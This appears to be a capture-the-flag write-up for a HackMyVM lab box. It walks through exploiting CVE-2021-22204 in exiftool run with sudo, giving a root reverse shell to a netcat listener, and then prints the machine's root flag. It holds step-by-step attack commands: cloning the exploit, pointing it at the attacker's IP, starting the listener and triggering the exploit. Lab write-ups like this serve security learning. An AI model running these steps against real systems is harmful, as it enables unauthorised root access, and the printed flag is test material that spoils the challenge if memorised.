







5.6 Exploit exiftool (Second flag)
1. On your Kali Machine clone the exploit from https://github.com/convisolabs/CVE-2021-22204-exiftool.git
$ git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
2. Copy the file to your victim's machine.
$ scp -r CVE-2021-22204-exiftool/ robert@192.168.12.56:/tmp
3. On your victim's machine go to “/tmp/CVE-2021-22204-exiftool/”.
robert@dejavu:/tmp$ cd CVE-2021-22204-exiftool/
4. Edit the “expoit.py” file.
robert@dejavu:/tmp/CVE-2021-22204-exiftool$ nano exploit.py
Change the IP to your Kali Machine IP and the port.

5. On your Kali Machine open a “netcat” connection with the same port.
$ nc -nlvp 9000
Output:

6. On your victim's machine run the “exploit.py” file.
robert@dejavu:/tmp/CVE-2021-22204-exiftool$ python3 exploit.py
robert@dejavu:/tmp/CVE-2021-22204-exiftool$ ls -l
robert@dejavu:/tmp/CVE-2021-22204-exiftool$ ls -l
Output:

7. On your victim's machine run “exiftool”.
robert@dejavu:/tmp/CVE-2021-22204-exiftool$ sudo exiftool exploit.djvu
You'll get a “Reverse Shell” on your Kali Machine.
Output:

8. Look at the ‘sudo’ permissions.
# id
Output:

9. Get the flag.
# cd root
# ls
# cat r0ot.tXt
# ls
# cat r0ot.tXt
Output:


HMV{c62d75d636f66450980dca2c4a3457d8}